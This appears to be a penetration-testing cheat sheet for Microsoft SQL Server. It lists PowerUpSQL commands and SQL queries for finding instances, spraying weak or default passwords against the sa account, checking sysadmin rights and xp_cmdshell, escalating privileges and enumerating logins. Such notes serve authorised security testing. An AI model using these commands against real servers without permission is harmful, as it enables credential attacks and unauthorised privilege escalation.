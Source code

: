 ````
```
Get-SQLInstanceScanUDP -Computername <COMPUTER LIST> 
```
 
#### Check Local Instance
```
Get-SQLInstanceLocal 
```

### Initial foothold
- Unauthenticated / Local user / Domain user --> SQL Login
#### Check for weak passwords or default credentials
- Might want to check for default applications with backend SQL Server express for default instances/credentials those applications use.
- Never got it to work as described in the blog: https://h4ms1k.github.io/Red_Team_MSSQL_Server/#
```
Get-SQLInstanceScanUDP | Invoke-SQLAuditWeakLoginPw -Verbose
spray weak credentials against the sa account
```
 
#### Check accessibility to SQL servers with current credentials
```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded –Verbose
```
 
#### Check accessibility with other user account
- Might need runas?
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded –Verbose -Username <USERNAME> -Password <PASSWORD>
```

#### Gather information
- If connection succes! Connect to the DB with heidiSQL and look in it!
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```
 
### Initial Recon
#### Check if sysadmin query
```
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Check for xp_cmdshell
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

### Privilege Escalation to sysadmin
#### Audit for issues
```
Invoke-SQLAudit -Verbose -Instance <SQL INSTANCE>
```
 
#### Try to excalate privileges
```
Invoke-SQLEscalatePriv
```
 
### SQL Server enumerate login
- Try weak passwords against the enumerated users!
#### Blind SQL Server login enum
```
SELECT name FROM sys.syslogins;
SELECT name FROM sys.server_principals;
````